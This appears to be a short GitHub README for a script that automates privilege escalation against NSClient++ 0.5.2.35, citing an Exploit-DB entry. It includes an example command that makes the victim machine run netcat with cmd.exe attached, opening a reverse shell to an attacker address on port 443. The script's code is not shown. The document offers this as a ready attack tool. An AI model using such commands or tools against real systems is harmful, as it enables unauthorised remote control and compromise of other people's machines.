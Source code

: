 # NSClient-0.5.2.35---Privilege-Escalation
Automated way of exploiting vulnerable NSClient++ 0.5.2.35 for privilege escalation.

Based on Steps described here: https://www.exploit-db.com/exploits/46802
 
 
Example Usage (opening reverse shell using netcat on the victim machine)
```
./exploit.py "C:\\Temp\\nc.exe 192.168.0.10 443 -e cmd.exe" https://192.168.0.100:443 supersecurepassword
 ```
